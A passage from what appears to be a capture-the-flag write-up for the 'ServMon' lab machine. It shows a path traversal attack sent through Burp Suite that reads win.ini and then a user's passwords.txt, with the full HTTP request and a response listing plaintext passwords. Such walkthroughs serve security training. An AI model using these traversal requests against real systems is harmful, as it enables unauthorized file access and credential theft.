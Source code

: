 ```txt
[fonts]
[extensions]
[mci extensions]
[files]
[Mail]
MAPI=1
```

Then we will use `/../../../../../../../../../../../../windows/win.ini` to replace GET parameter on burpsuite:

![[ServMon.htb-05.png]]

And we will find it has successfully get win.ini file from this windows. 

Recall we get the notes "I left your Passwords.txt file on your Desktop. " which means we could use this exploit to get the password from Nathan's desktop.

Let's use another method , burpsuite to replace `/Pages/login.htm` to `/../../../../../../../../../../../../users/nathan/desktop/passwords`, and we successfully read the passwords file content:

```http
GET /../../../../../../../../../../../../users/nathan/desktop/passwords.txt HTTP/1.1
Host: 10.129.227.77
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/103.0.5060.134 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://servmon.htb/
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Connection: close
```

![[ServMon.htb-06.png]]

```http
HTTP/1.1 200 OK
Content-type: text/plain
Content-Length: 156
Connection: close
AuthInfo: 

1nsp3ctTh3Way2Mars!
Th3r34r3To0M4nyTrait0r5!
B3WithM30r4ga1n5tMe
L1k3B1gBut7s@W0rk
0nly7h3y0unGWi11F0l10w
IfH3s4b0Utg0t0H1sH0me
Gr4etN3w5w17hMySk1Pa5$
```
